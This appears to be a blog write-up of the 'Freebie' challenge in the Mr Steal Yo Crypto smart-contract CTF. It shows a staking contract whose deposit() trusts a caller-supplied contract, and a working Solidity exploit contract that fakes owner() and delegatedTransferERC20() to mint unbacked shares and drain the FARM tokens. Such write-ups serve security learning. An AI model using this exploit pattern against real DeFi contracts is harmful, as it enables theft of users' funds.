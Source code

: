 ```yaml
---
title: "Mr Steal Yo Crypto — Freebie"
date: 2023-07-22
draft: false
description: "CTF - 7"
tags: ["CTF"]
series: ["CTF"]
series_order: 7
topics: ["CTF"]
showAuthor: false
showAuthorsBadges : false
---
```


This is the #7 challenge of [Mr Steal Yo Crypto](https://mrstealyocrypto.xyz/index.html). I will try to explain how to find the vulnerability.

> A set of challenges to learn offensive security of smart contracts. Featuring interesting challenges loosely (or directly) inspired by real-world exploits.
>
> Created by [@0xToshii](https://twitter.com/0xToshii)

I used the foundry version for this CTF: [mr-steal-yo-crypto-ctf-foundry](https://github.com/0xToshii/mr-steal-yo-crypto-ctf-foundry/tree/implement)

![Mr Steal Yo Crypto](https://cdn-images-1.medium.com/max/800/1*67w9ffBxLP4AMvoxHowZ2w.jpeg)

## Freebie

> There’s a staking contract RewardsAdvisor which accepts FARM tokens and mints an equivalent amount of xFARM. xFARM is used for governance and within [redacted]’s defi ecosystem.
> Your task is to drain 99.99%+ of the FARM tokens from this contract.

- [See the contracts](https://github.com/0xToshii/mr-steal-yo-crypto-ctf-foundry/tree/implement/src/freebie)
- [Complete the challenge](https://github.com/0xToshii/mr-steal-yo-crypto-ctf-foundry/blob/implement/test/7-freebie.sol)

## Review of the contract

### GovToken.sol

For the moment, I don’t have something to say on this contract.

### RewardsAdvisor.sol

Well, it didn’t take a long time for spotting the vulnerability because it is in the first function: `deposit()`. We are able to mint an infinite amount of shares because if the parameter address `from` is a contract, then the contract calls the `owner()` and `delegatedTransferERC20()` functions of the `from` contract. If you saw my previous article, it is the same issue as the challenge #2 — Safu Vault and challenge #6 — Tasty Stake.

```solidity
// @param farmDeposit Amount of FARM transferred from sender to RewardsAdvisor
// @param to Address to which liquidity tokens are minted
// @param from Address from which tokens are transferred
// @return shares Quantity of liquidity tokens minted as a result of deposit
function deposit(uint256 farmDeposit, address payable from, address to) external returns (uint256 shares) {
    require(farmDeposit > 0, "deposits must be nonzero ");
    require(to != address(0) && to != address(this), "to ");
    require(from != address(0) && from != address(this), "from ");
    
    shares = farmDeposit;
    if (xfarm.totalSupply() != 0) {
        uint256 farmBalance = farm.balanceOf(address(this));
        shares = (shares * xfarm.totalSupply()) / farmBalance;
    }
    
    if (isContract(from)) {
        require(IAdvisor(from).owner() == msg.sender); // admin
        IAdvisor(from).delegatedTransferERC20(address(farm), address(this), farmDeposit);
    } else {
        require(from == msg.sender); // user
        farm.safeTransferFrom(from, address(this), farmDeposit);
    }
    
    xfarm.mint(to, shares);
}
```

## Exploit the vulnerability

This is the same vulnerability as the challenge #2 — Safu Vault and challenge #6 — Tasty Stake.

Here is a quick solution:

```solidity
contract Exploit {
    Token farm;
    GovToken govToken;
    RewardsAdvisor rewardsAdvisor;
    address private attacker;

    constructor(address _target, address _farm, address _xfarm) {
        farm = Token(_farm);
        govToken = GovToken(_xfarm);
        rewardsAdvisor = RewardsAdvisor(_target);
        attacker = msg.sender;
    }

    // Will be called during deposit()
    function owner() external returns (address) {
        return address(this);
    }

    // Will be called during deposit()
    function delegatedTransferERC20(address token, address to, uint256 amount) external {
        // Do nothing in the exploit contract
    }

    // Deposit() will call our contract and so we will skip some process like the transfer of farm token
    function pwn(address _target) external {
        uint256 amount = govToken.balanceOf(address(_target)) * uint256(10000) / uint256(1);
        console.log("amount shares we want : ", amount);
        rewardsAdvisor.deposit(amount, payable(address(this)), address(this));
        console.log("amount shares exploit got : ", govToken.balanceOf(address(this)));
        rewardsAdvisor.withdraw(govToken.balanceOf(address(this)), attacker, payable(address(this)));
        console.log("amount farm attacker got : ", farm.balanceOf(address(attacker)));
        // farm.transfer(owner, farm.balanceOf(address(this)));
    }
}
```

You can check my test file [here](https://github.com/gp-ngmi/mr-steal-yo-crypto-ctf-foundry/blob/implement/test/7-freebie.sol).

## Acknowledgement

Thank you [https://stermi.xyz/](https://stermi.xyz/) for inspiring me to write articles on CTF ^^.